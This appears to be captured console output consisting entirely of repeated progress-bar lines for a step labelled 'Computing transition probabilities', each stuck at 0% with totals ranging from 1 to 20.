Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/11 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/20 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

